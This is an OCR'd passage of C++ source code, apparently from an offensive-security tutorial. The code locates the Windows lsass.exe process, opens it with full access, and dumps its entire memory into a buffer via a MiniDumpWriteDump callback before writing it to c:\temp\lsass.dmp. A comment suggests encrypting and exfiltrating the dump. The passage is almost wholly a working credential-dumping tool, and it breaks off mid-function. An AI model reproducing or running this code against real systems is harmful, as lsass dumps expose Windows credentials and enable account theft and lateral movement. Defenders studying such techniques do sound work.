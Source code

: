 ```cpp
            // Destination is start of our dumpBuffer + the offset of the minidump data
            destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);

            // Size of the chunk of minidump that's just been read.
            bufferSize = callbackInput->Io.BufferBytes;
            bytesRead += bufferSize;

            RtlCopyMemory(destination, source, bufferSize);

            printf("[+] Minidump offset: 0x%x; length: 0x%x\n", callbackInput->Io.Offset, bufferSize);
            break;

        case IoFinishCallback:
            callbackOutput->Status = S_OK;
            break;

        default:
            return true;
    }
    return TRUE;
}

int main() {
    DWORD lsassPID = 0;
    DWORD bytesWritten = 0;
    HANDLE lsassHandle = NULL;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    LPCWSTR processName = L"";
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    // Get lsass PID
    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        printf("[+] lsass PID=0x%x\n",lsassPID);
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

    // Set up minidump callback
    MINIDUMP_CALLBACK_INFORMATION callbackInfo;
    ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
    callbackInfo.CallbackRoutine = &minidumpCallback;
    callbackInfo.CallbackParam = NULL;

    // Dump lsass
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);

    if (isDumped) 
    {
        // At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
        printf("\n[+] lsass dumped to memory 0x%p\n", dumpBuffer);
        HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

```